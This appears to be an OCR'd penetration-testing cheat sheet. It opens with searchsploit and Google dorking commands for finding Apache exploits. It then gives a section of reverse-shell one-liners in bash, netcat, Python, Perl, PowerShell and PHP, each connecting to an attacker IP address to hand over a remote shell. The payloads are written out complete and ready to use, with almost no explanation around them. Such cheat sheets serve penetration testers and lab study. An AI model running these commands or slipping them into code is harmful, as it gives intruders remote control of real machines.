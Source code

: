 

## Find xploits - Searchsploit and google

Where there are many exploits for a software, use google. It will automatically sort it by popularity.

```bash
site:exploit-db.com apache 2.4.7

# Remove dos-exploits

searchsploit Apache 2.4.7 | grep -v '/dos/'
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

# Only search the title (exclude the path), add the -t
searchsploit -t Apache | grep -v '/dos/'
```

## Reverse Shells

```bash
# Linux 
bash -i >& /dev/tcp/10.11.1.111/4443 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.1.111 4443 >/tmp/f
nc -e /bin/sh 10.11.1.111 4443

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.1.111",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4433 >/tmp/f')-1\

# Perl
perl -e 'use Socket;$i="10.11.1.111";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Windows
nc -e cmd.exe 10.11.1.111 4443
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.11',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# PHP most simple Linux
<?php $sock = fsockopen("10.11.1.111",1234); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);?>
```
